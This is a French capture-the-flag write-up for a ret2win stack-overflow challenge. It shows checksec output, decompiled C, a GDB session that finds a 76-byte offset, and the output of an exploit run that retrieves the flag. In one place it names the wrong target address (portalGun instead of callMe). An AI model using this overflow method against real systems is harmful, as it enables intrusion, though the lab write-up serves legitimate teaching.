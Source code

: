 # Pwn0x01

```md
return to win!!!

nc 35.180.44.229 1235
```

On comprends à la description qu'il va s'agir d'un ret2win. [L'exécutable](./task_new) est fournit vérifions si des sécurités sont activées :

```console
$ checksec --file=task_new
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   77 Symbols	  No	0		3	task_new
```

Visiblement pas de PIE ni de canary, essayons le :

```console
$ ./task_new 
hey Morty give an adress for my portal Gun
AAAA
```

Le programme nous demande une saisie et s'arrête, essayons de le reverse pour mieux le comprendre.

## Analyse statique

Avec Ghidra on retrouve ces trois fonctions :

```C
undefined4 main(void)
{
  ignore_me_init_buffering(&stack0x00000004);
  setvbuf(_stdout,(char *)0x0,2,0);
  puts("hey Morty give an adress for my portal Gun");
  portalGun();
  return 0;
}
```

```C
void portalGun(void)
{
  char local_4c [68];
  
  gets(local_4c);
  return;
}
```

```C
void callMe(int param_1)
{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("No flag contact an admin.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
  return;
}
```

La fonction `main` ne nous intéresse pas trop elle ne fait qu'appeler `portalGun`, qui elle par contre est vulnérable à un buffer overflow :

```C
  char local_4c [68];
  
  gets(local_4c);
```

Et enfin `callMe` va gentillement aller chercher le flag pour nous :

```C
  local_10 = fopen("flag.txt","r");
```

Puis nous l'affiche à condition de l'appeler avec `0xdeadbeef` en argument :

```C
  if (param_1 == L'\xdeadbeef') {
    fgets(local_50,64,local_10);
    printf(local_50);
  }
```

Il va donc falloir utiliser le buffer overflow de `portalGun` pour appeler `callMe` avec le bon argument.

## Analyse dynamique

Cherchons l'offset nécessaire pour rediriger l'exécution du programme sous GDB :

```gdb
gef➤  disas portalGun 
Dump of assembler code for function portalGun:
   0x080486a5 <+0>:	push   ebp
   0x080486a6 <+1>:	mov    ebp,esp
   0x080486a8 <+3>:	push   ebx
   0x080486a9 <+4>:	sub    esp,0x44
   0x080486ac <+7>:	call   0x8048729 <__x86.get_pc_thunk.ax>
   0x080486b1 <+12>:	add    eax,0x194f
   0x080486b6 <+17>:	sub    esp,0xc
   0x080486b9 <+20>:	lea    edx,[ebp-0x48]
   0x080486bc <+23>:	push   edx
   0x080486bd <+24>:	mov    ebx,eax
   0x080486bf <+26>:	call   0x8048430 <gets@plt>
   0x080486c4 <+31>:	add    esp,0x10
   0x080486c7 <+34>:	nop
   0x080486c8 <+35>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080486cb <+38>:	leave
   0x080486cc <+39>:	ret
End of assembler dump.

gef➤  br *portalGun+39
Breakpoint 1 at 0x80486cc

gef➤  r <<< $(python3 -c 'print("A"*76+"B"*4)')
```

```gdb
──────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "task_new", stopped 0x42424242 in ?? (), reason: SIGSEGV
```

Le programme crash car il n'arrive pas à accèder à l'adresse que nous avons injecté : il faudra un offset de 76 bytes.

## Exploit

PIE est désactivé nous pouvons donc utiliser cette addresse de `portalGun` :

```console
gef➤  info func portalGun
All functions matching regular expression "portalGun":

Non-debugging symbols:
0x080486a5  portalGun
```

Et ce [script](./exploit.py) nous permet d'envoyer notre payload à l'aide `pwntools` :

```console
$ python3 exploit.py 
[+] Opening connection to 35.180.44.229 on port 1235: Done

b'StarHack{YOU_WON!!}\n'

[*] Closed connection to 35.180.44.229 port 1235
```
